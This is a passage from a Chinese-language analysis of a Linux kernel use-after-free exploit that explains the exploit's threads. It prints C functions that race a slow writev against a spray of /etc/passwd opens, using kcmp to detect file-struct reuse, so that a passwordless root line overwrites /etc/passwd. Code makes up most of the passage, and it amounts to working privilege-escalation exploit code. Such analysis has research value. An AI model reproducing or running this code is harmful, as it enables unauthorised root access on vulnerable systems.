 打开文件去占据内核锁，去打开 ./uaf，至于为什么打开 uaf，稍后分析内核源码可以获得具体原因。  
  
这里面还分配了大量内存页，并尝试将所有页面写入文件，这一步通过文献的查阅可以得知是为了减缓写文件的速度，把写文件的时间线拉长就可以提高漏洞利用的成功率。  
  
中间在开始写之前会设置一个全局变量去启动下一个线程。  
#### write_cmd  
```
void *write_cmd() {
    char data[1024] = "root::0:0:root:/root:/bin/sh\n\n";
    struct iovec iov = {.iov_base = data, .iov_len = strlen(data)};

    while (!run_write) {
    }
    run_spray = 1;
    if (writev(uaf_fd, &iov, 1) < 0) {
        printf("failed to write\n");
    }
    printf("overwrite done! It should be after the slow write\n");}
```  
  
这一步就是等到第一个线程调用 writev 的时候启动第三个线程，然后再去写指定的数据。  
#### spray_files  
```
int spray_files() {

    while (!run_spray) {
    }
    int found = 0;

    printf("got uaf fd %d, start spray....\n", uaf_fd);    for (int i = 0; i < MAX_FILE_NUM; i++) {
        fds[i] = open("/etc/passwd", O_RDONLY);
        if (fds[i] < 0) {
            perror("open file");
            printf("%d\n", i);
        }
        if (syscall(__NR_kcmp, getpid(), getpid(), KCMP_FILE, uaf_fd, fds[i]) ==
            0) {
            found = 1;
            printf("[!] found, file id %d\n", i);
            for (int j = 0; j < i; j++)
                close(fds[j]);
            break;
        }
    }

    if (found) {
        sleep(4);
        return 0;
    }
    return -1;
}
```  
  